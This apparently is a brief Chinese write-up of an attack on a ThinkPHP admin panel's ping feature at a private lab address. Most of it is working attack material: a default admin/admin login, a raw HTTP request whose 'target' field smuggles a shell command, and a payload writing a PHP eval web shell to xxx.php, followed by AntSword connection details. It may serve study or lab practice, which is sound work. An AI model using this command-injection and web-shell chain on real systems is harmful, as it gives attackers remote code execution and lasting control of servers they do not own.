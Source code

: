 ```bash
admin / admin
```

## 1.命令执行

### ping

![image-20241123164157940](https://image.201068.xyz/assets/writeup/image-20241123164157940.png)

![image-20241123164530119](https://image.201068.xyz/assets/writeup/image-20241123164530119.png)

```bash
POST /admin/Ping/index HTTP/1.1
Host: 192.168.28.1
Content-Length: 22
Cache-Control: max-age=0
Origin: http://192.168.28.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.28.1/admin/ping/index/menuid/116
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0; PHPSESSID=qvm6qse1pk82ss55a83ho5a5b5; thinkphp_show_page_trace=0|0
Connection: keep-alive

target=114.114.114.114;echo '<?php @eval($_POST["xxx"]);?>' > xxx.php
```



```bash
target=114.114.114.114;ls
target=1;echo '<?php @eval($_POST["xxx"]);?>' > xxx.php
```

![image-20241123165314773](https://image.201068.xyz/assets/writeup/image-20241123165314773.png)

### 蚁剑连接

```bash
http://192.168.28.1/xxx.php
xxx
```

![image-20241123173548962](https://image.201068.xyz/assets/writeup/image-20241123173548962.png)

![image-20241123173601282](https://image.201068.xyz/assets/writeup/image-20241123173601282.png)
